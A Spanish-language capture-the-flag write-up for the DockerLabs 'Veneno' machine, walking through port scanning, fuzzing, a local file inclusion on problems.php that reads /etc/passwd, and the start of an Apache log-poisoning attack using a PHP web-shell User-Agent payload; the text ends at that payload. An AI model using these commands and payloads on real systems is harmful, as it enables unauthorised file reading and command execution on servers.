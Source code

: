 # Veneno

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Veneno`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_1.png)  

Hay dos puertas abiertas, la 22 y la 80.  
Echemos un vistazo a la web.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_2.png)  

Podemos ver la página por defecto de apache2 y tampoco encontramos nada de interés en el código fuente de la página.  
Por lo tanto, vamos a hacer un poco de fuzzing.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_3.png)    

Descubrimos una nueva ruta, /uploads, a la que tenemos acceso, pero que no contiene nada.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_4.png)     
  
También vemos otra página, /problems.php, que, a primera vista, parecería ser la misma que la página de inicio.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_5.png)    

Intentemos ver si esta página es vulnerable a un ataque LFI (Local File Inclusion).  
Ejecutamos el comando:  

`sudo wfuzz -c -L -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=363 "http://172.17.0.2/problems.php?FUZZ=/../../../../../etc/passwd"`

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_6.png)      

¡Así es!  
Podemos ver que hay un usuario, **carlos**.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_7.png)   

A continuación intentamos realizar una fuerza bruta con hydra pero no obtenemos resultados.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_8.png)   

Ejecutamos entonces este comando para ver si tenemos accesos a los logs para intentar ejecutar un ataque de log poisoning.  

`sudo wfuzz -c --hc=404 --hw=0 -t 200 -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://172.17.0.2/problems.php?backdoor=FUZZ' 

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_9.png)     

Sí, tenemos acceso a los logs de apache, así que intentaremos llevar a cabo este ataque con el objetivo de enviar una shell inversa a nuestra máquina atacante.  
Primero tendremos que abrir el Burp Suite e interceptar la petición.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_10.png)     

Ahora modificaremos el campo User Agent con la cadena:  

<?php system($_GET['cmd']); ?>  








